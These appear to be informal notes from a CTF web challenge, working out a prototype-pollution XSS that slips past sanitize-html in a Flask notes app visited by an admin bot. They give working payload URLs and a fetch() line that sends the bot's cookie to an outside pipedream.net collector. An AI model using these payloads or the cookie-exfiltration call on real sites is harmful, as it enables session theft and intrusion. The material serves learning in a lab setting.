

## Bot visit

- httponly, so we should inject javacript!
- Redirect should not work, as we loose the cookie
- Cookie is only available for the site, as it defaults to the [active document URL domain](https://www.w3.org/TR/webdriver1/#cookies)

```python
    def visit(self, url):
        self.driver.get("http://127.0.0.1:5000/")
        
        self.driver.add_cookie({
            "name": "flag", 
            "value": "L3AK{fake_flag}", 
            "httponly": False  
        }) 
```

## Main app

```python
@app.route("/", methods=["POST", "GET"])
def note():
    return render_template("notes.html")

@app.route("/report", methods=["GET", "POST"])
def report():
    if request.method == "GET":
        return render_template("visit.html")
    bot = Bot()
    url = request.form.get('url')
    if url:
        try:
            parsed_url = urlparse(url)
        except Exception:
            return {"error": "Invalid URL."}, 400

        if parsed_url.scheme not in ["http", "https"]:
            return {"error": "Invalid scheme."}, 400

        bot.visit(url)
        bot.close()
        return {"visited": url}, 200
    else:
        return {"error": "URL parameter is missing!"}, 400
```

but the form action is literally only

```html
  <form id="notesForm" action="/" method="GET">
    <textarea name="note" placeholder="Write your note here..." required></textarea><br>
    <button type="submit">Add Note</button>
  </form>
```

So we do not really send a note, as the template does not do further stuff server side. However, there is apparently JS that parses the url, so we likely have a reflective XSS attack

```
http://34.134.162.213:17002/?note=test%0D%0A
```

- `Query.js` -> Parse the query
- `sanitize-html.min.js` -> DOM sanitizer?
- `index.js` -> Main target 

## Index.js

- Parse the query via the parser

```
window.location.search
"?note=test%0D%0A" 
```

- We just assume that the Query script takes the input and parses it into a dict for now

```javascript
QueryArg.parseQuery(window.location.search)
Object { note: "test\r\n" }
```

- Take the key `note` from the query and extract it's value
- The framework also supports arrays

```javascript
res = QueryArg.parseQuery("?note[1]=1&note[2]=3")
Object { note: (3) […] }

const { note: n } = res;
undefined

n
Array(3) [ <1 empty slot>, 1, 3 ]
```

- So, what does [`sanitizeHtml(txt)`](https://www.npmjs.com/package/sanitize-html) do?
- From it's page, it blocks

```javascript
console.log(sanitizeHtml("<strong>hello world</strong>"));
console.log(sanitizeHtml("")); // this!!
console.log(sanitizeHtml("console.log('hello world')"));
console.log(sanitizeHtml("<script>alert('hello world')</script>")); // this!!
```


```
tst("__proto__[innerText]=<svg onload=alert(3)>&note=ignored")
"ignored"
tst("note=</div>onload= <div>")
"onload= <div><svg onload=alert(3)></div>" 
```


```
http://34.134.162.213:17002/?__proto__[innerText]=%3Cimg%20src%20onerror=console.log(3)%20/%3E&note[1]=%3Cdiv%3E
```

this works lol


http://34.134.162.213:17002/?__proto__[innerText]=&note[1]=<div>


# Learning: do not include a ?!!! 
http://34.134.162.213:17002/?__proto__[innerText]=&note[1]=<div>


http://34.134.162.213:17002/?__proto__[innerText]=&note[1]=<div>


http://34.134.162.213:17002/?__proto__[innerText]=&note[1]=<div>

fetch('https://eoxpxfgm7r1g3d9.m.pipedream.net/?c='+btoa(document.cookie))
fetch('https://eoxpxfgm7r1g3d9.m.pipedream.net/?c=')


http://127.0.0.1:5000/?__proto__[innerText]=&note[1]=<div>


## Docker

- There are no chrome instances for `arm64`, so switch to `chromium`
- But selenium does not work with `arm64`


```
docker buildx build --platform=linux/amd64 -t ctfnoteamd .
```


```shell
127.0.0.1 - - [14/Jul/2025 15:48:52] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [14/Jul/2025 15:48:52] "GET /static/js/Query.js HTTP/1.1" 200 -
127.0.0.1 - - [14/Jul/2025 15:48:52] "GET /static/js/index.js HTTP/1.1" 200 -
127.0.0.1 - - [14/Jul/2025 15:48:52] "GET /static/js/sanitize-html.min.js HTTP/1.1" 200 -
127.0.0.1 - - [14/Jul/2025 15:48:53] "GET /favicon.ico HTTP/1.1" 404 -
127.0.0.1 - - [14/Jul/2025 15:48:53] "GET /?__proto__[innerText]=&note[1]=<div> HTTP/1.1" 200 -
127.0.0.1 - - [14/Jul/2025 15:48:53] "GET /static/js/sanitize-html.min.js HTTP/1.1" 304 -
127.0.0.1 - - [14/Jul/2025 15:48:53] "GET /static/js/Query.js HTTP/1.1" 304 -
127.0.0.1 - - [14/Jul/2025 15:48:53] "GET /static/js/index.js HTTP/1.1" 304 -
127.0.0.1 - - [14/Jul/2025 15:48:54] "GET /?__proto__[innerText]=&note[1]=<div> HTTP/1.1" 200 -
127.0.0.1 - - [14/Jul/2025 15:48:54] "GET /static/js/Query.js HTTP/1.1" 304 -
127.0.0.1 - - [14/Jul/2025 15:48:54] "GET /static/js/sanitize-html.min.js HTTP/1.1" 304 -
127.0.0.1 - - [14/Jul/2025 15:48:54] "GET /static/js/index.js HTTP/1.1" 304 -
Visited http://127.0.0.1:5000/?__proto__[innerText]=&note[1]=<div>
192.168.65.1 - - [14/Jul/2025 15:48:56] "POST /report HTTP/1.1" 200 -
192.168.65.1 - - [14/Jul/2025 15:48:56] "GET /favicon.ico HTTP/1.1" 404 -
```

```shell
❯ echo "ZmxhZz1MM0FLe2Zha2VfZmxhZ30=" | base64 -d
flag=L3AK{fake_flag}
```                                  


